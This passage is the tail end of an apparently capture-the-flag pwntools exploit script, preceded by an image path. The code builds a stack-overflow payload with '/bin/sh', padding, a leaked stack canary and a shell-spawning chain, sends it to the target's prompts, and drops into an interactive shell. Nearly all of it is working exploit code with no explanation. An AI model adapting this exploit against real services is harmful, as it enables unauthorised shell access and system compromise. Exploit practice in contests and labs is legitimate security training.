 ```python
    payload += b"/bin/sh\0"
    payload += b"a" * 8 + p64(canary)
    payload = payload.ljust(65)
    payload += shell
    r.sendafter(b"name ?\n", payload)

    r.sendafter(b"rop ?\n", b"a")
    r.sendafter(b"enabled?\n", b"b")
    r.interactive()


if __name__ == "__main__":
    main()
```
